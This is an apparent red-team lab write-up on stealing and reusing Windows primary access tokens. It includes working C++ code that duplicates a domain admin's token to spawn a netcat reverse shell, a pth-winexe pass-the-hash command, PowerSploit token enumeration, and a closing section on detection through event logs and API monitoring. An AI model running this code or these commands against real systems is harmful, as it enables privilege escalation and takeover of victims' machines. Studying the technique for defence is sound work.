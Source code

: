 ```yaml
---
description: >-
  Defense Evasion, Privilege Escalation by stealing an re-using security access
  tokens.
---
```


# Primary Access Token Manipulation

## Context

One of the techniques of token manipulation is creating a new process with a token "stolen" from another process. This is when a token of an already existing access token present in one of the running processes on the victim host, is retrieved, duplicated and then used for creating a new process, making the new process assume the privileges of that stolen token.

A high level process of the token stealing that will be carried out in this lab is as follows:

| Step                                                         | Win32 API                 |
| ------------------------------------------------------------ | ------------------------- |
| Open a process with access token you want to steal           | `OpenProcess`             |
| Get a handle to the access token of that process             | `OpenProcesToken`         |
| Make a duplicate of the access token present in that process | `DuplicateTokenEx`        |
| Create a new process with the newly aquired access token     | `CreateProcessWithTokenW` |

## Weaponization

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060` This is a process ID that we want to impersonate/steal the token from, since it is running as a domain admin and makes it for a good target:

![A victim cmd.exe process that is running under the context of DC admin offense\administrator](../../.gitbook/assets/tokens-victim-3060.png)

Note the line 16, which specifies the executable that should be launched with an impersonated token, which in our case effectively is a simple netcat reverse shell calling back to the attacking system:

![](../../.gitbook/assets/tokens-shell-c++.png)

This is the code if you want to compile and try it yourself:

{% code title="tokens.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
	char a;
	HANDLE processHandle;
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	DWORD PID_TO_IMPERSONATE = 3060;
	wchar_t cmdline[] = L"C:\\shell.cmd";
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);	

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
	OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
	DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);			
	CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
	
	std::cin >> a;
    return 0;
}
```
{% endcode %}

## Execution

Launching `Tokens.exe` from the powershell console spawns a reverse shell that the attacker catches. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token theft:

![](../../.gitbook/assets/token-shell-impersonated.png)

The logon for OFFESNE\administrator in the above test was of logon type 2 (interactive logon, meaning I launched a new process on the victim system using a `runas /user:administrator@offense cmd` command).&#x20;

Another quick test that I wanted to do was a theft of an access token that was present in the system due to a network logon (i.e psexec, winexec, pth-winexe, etc), so I spawned a cmd shell remotely from the attacking machine to the victim machine using:

{% code title="attacker@local" %}
```
pth-winexe //10.0.0.2 -U offense/administrator%pass cmd
```
{% endcode %}

which created a new process on the victim system with a PID of 4780:

![](../../.gitbook/assets/tokens-winexe.png)

Enumerating all the access tokens on the victim system with PowerSploit:

```csharp
Invoke-TokenManipulation -ShowAll | ft -Wrap -Property domain,username,tokentype,logontype,processid
```

...gives the below. Note the available token (highlighted) - it is the cmd.exe from above screenshot and its logon type is as expected - 3 - a network logon:

![](../../.gitbook/assets/tokens-all.png)

This token again can be stolen the same way we did it earlier. Let's change the PID in `Tokens.cpp` of the process we want to impersonate to `4780`:

![](../../.gitbook/assets/tokens-new-pid.png)

Running the compiled code invokes a new process with the newly stolen token:

![](../../.gitbook/assets/tokens-new-shell.png)

note the cmd.exe has a PID 5188 - if we rerun the `Invoke-TokenManipulation`, we can see the new process is using the access token with logon type 3:

![](<../../.gitbook/assets/token-new-logon-3 (1).png>)

## Observations

Imagine you were investigating the host we stole the tokens from, because it exhibited some anomalous behaviour. In this particularly contrived example, since `Tokens.exe` was written to the disk on the victim system, you could have a quick look at its dissasembly and conclude it is attempting to manipulate access tokens - note that we can see the victim process PID and the CMDLINE arguments:

![](<../../.gitbook/assets/token-disasm (1).png>)

As suggested by the above, you should think about API monitoring if you want to detect these token manipulations on endpoints, but beware - this can be quite noisy.&#x20;

Windows event logs of IDs `4672` and `4674` may be helpful for you as a defender also - below shows a network logon of a `pth-winexe //10.0.0.2 -U offense/administrator%pass cmd` and then later, a netcat reverse shell originating from the same logon session:

![](../../.gitbook/assets/token-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1134" %}

{% embed url="https://digital-forensics.sans.org/blog/2012/03/21/protecting-privileged-domain-accounts-access-tokens" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/SecGloss/p-gly#-security-primary-token-gly" %}

{% embed url="https://technet.microsoft.com/pt-pt/library/cc783557%28v=ws.10%29.aspx?f=255&MSPPError=-2147217396" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/secauthz/access-tokens" %}

{% embed url="https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/aa446671(v=vs.85).aspx" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createprocesswithtokenw" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/aa446617(v=vs.85).aspx" %}

{% embed url="https://www.youtube.com/watch?v=Ed_2BKn3QR8" %}

[https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf](https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf)
